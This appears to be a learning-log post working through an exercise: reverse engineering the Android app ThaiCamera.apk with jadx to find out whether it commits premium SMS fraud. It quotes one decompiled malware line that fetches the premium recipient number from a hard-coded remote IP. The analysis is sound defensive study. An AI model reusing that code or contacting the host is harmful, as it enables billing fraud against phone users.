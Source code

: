 ```yaml
---
title: "Day 30: Android App Reverse Engineering 101"
date: 2020-07-07T22:08:48-07:00
draft: false
---
```


## Exercise 2 - Reverse Engineer the DEX
Continuing from [Exercise 1: Beginning Reverse Engineering with `jadx`](day_029.md). Reverse engineer `ThaiCamera.apk` to determine if it is doing premium SMS fraud.

### Goals
* Learn to analyze the Java decompilation of the DEX bytecode in `jadx` to understand what the Android application is doing.
* Experience how Android malware analysts apply reverse engineering to their context
* Determine if:
  * the Android application is sending an SMS message
  * that SMS message is going to a premium number
  * there is an obvious disclosure
  * the SMS message is only sent to the premium number after user consent

### Steps to Solution
I found three places in `Loading.java` where `sendMessage(...)` was called. 
* Two calls in `onCreate(...)`
* one in `onRequestPermissionsResult(...)`
* The app requests the `SEND_SMS` permission
* The receiving phone number (the `mobile` parameter passed to [`sendTextMessage(...)`](https://developer.android.com/reference/android/telephony/SmsManager#sendTextMessage)) is retrieved via an API call to an IP address - `HttpURLConnection urlConnection = (HttpURLConnection) new URL("http://139.59.107.168:8088/appsharejson?code=" + code).openConnection();`

### Notes
* A [Premium SMS number](https://www.infobip.com/glossary/premium-sms-number) is a 3-7 digit number used for messaging that charges a premium price to the end user per sent SMS.
